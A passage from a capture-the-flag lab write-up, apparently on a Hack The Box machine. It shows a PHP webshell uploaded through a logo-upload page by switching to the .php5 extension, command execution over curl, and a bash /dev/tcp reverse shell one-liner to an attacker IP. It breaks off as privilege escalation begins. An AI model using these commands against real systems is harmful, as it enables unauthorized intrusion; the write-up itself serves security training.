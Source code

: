 This brings us to `changelogo.php`, which allows us to upload a file. Only image file are allowed. Obviously, we have to upload a PHP webshell somehow and bypass the file type check. I tried with multiple PHP extensions, and found that `.php5` works.

<figure><img src="../../../.gitbook/assets/image (2796).png" alt=""><figcaption></figcaption></figure>

```
$ curl http://sparklays.com/sparklays/design/uploads/test1.php5?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, we have RCE on the machine and can get a reverse shell. We can use this command here:

```
$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.21/4444 0>&1"' http://sparklays.com/sparklays/design/uploads/test1.php5
```

<figure><img src="../../../.gitbook/assets/image (1235).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Dave Credentials

There are a few users on this machine:

```
www-data@ubuntu:/home$ ls -la
total 16
drwxr-xr-x  4 root root 4096 Jun  2  2021 .
drwxr-xr-x 24 root root 4096 Dec  2  2021 ..
drwxr-xr-x 19 alex alex 4096 Jun  2  2021 alex
drwxr-xr-x 18 dave dave 4096 Jun  2  2021 dave
```
